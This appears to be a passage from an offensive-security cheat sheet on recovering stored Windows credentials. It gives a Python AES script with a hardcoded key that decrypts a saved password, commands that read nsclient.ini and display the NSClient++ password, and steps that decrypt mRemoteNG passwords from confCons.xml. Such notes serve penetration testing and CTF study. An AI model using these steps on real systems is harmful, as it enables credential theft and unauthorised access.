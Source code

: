The script is as follows:

```python
#!/usr/bin/env python3

from Crypto.Cipher import AES

key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
# Read as bytes
cipher = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174, 19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218, 126, 141, 55, 107, 38, 57, 78, 91])

aes = AES.new(key, AES.MODE_CBC, IV=iv)
# UTF-16 because is Windows and Strip Null Bytes
password = aes.decrypt(cipher).decode("utf-16").rstrip("\x00")

print(f"[+] The password is: {password}")
```

Then we can decrypt the password.

```
❯ python3 decrypt.py
[+] The password is: !R3m0te!
```

#### NSClient++

View and undocumented key:

```
type nsclient.ini
```

Display password with `nscp.exe`:

```
nscp.exe web -- password --display
```

### mRemoteNG-Decrypt

Read the password from XMLfile:

```
type confCons.xml
```

Decrypt the password cipher text:

```
python3 mremoteng_decrypt.py -s CIPHER
```

{% embed url="https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py" %}

### Groups.xml
